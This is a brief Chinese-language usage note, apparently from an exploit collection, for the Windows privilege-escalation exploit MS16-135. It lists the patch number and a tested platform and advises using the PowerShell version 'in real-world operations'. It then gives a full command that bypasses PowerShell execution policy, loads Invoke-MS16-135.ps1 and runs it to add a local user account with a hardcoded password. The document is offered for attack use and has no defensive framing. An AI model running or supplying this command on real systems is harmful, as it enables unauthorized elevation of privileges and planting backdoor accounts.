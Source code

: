 ***

```
漏洞代号: MS16-135
补丁编号: KB3141780
exp 用途: 利用.NET提权
适应平台: 08 R2本地测试成功,exp写的还不错
用法: 有调好的powershell版的,实战中大家直接用ps版的会更好些,exe的执行比较繁琐,实战中利用非常有限
```
***
```
powershell -nop -exec bypass -c "& {Import-Module 'c:\Invoke-MS16-135.ps1';Invoke-MS16-135 -Application cmd.exe -commandline '/c net user HELPS amin!@#45 /add'}"
```
***
![](../img/ms16-135.png)  

